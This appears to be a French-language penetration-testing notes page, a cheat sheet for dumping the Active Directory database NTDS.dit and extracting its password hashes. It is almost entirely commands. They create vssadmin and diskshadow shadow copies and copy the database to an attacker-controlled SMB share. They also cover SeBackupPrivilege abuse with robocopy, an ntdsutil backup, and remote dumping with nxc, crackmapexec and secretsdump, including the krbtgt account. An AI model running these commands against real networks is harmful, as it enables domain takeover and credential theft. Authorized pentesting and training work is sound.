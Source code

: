 ```yaml
---
public: true
---
```

## Dump d'NTDS.dit
### Localement

#### Cliché instantané (vssadmin)

##### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

#### Cliché instantanné (diskshadow.exe)

##### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
 set verbose on
 set metadata C:\Windows\Temp\meta.cab
 set context clientaccessible
 set context persistent
 begin backup
 add volume C: alias cdrive
 create
 expose %cdrive% E:
 end backup
 exit
```

##### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Exploitation des privilèges Windows]])

```
# cas 1 : Robocopy "sait" utiliser le privilège SeBackupPrivilege
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

# cas 2 : sans robocopy, ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#### Création d'une sauvegarde via ntdsutil (non testé)

Le fichier créé dans ce format pourra par la suite être exploité pour fournir des métriques sur différents éléments liés aux mots de passe et leur robuster via l'outil Domain Password Audit Tool (DPAT) <https://github.com/clr2of8/DPAT>

```shell
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

### A distance

```
## utilise à distance ntdsutil
nxc smb ip -u user -p pass -M ntdsutil

crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds

secretsdump.py -just-dc-user $AD_DOMAIN/krbtgt  $AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP

```

## Extraction des informations d'identification (credentials)

## Localement
### Extraction des informations présentes dans NTDS.dit via DSInternals

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

### A distance
#### Extraction des hash d'un dump NTDS.dit via secretsdump.py

Prérequis : disposer d'NTDS.dit et du dump SYSTEM via `reg save HKLM\SYSTEM SYSTEM.SAV`

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM.sav -hashes lmhash:nthash LOCAL
```
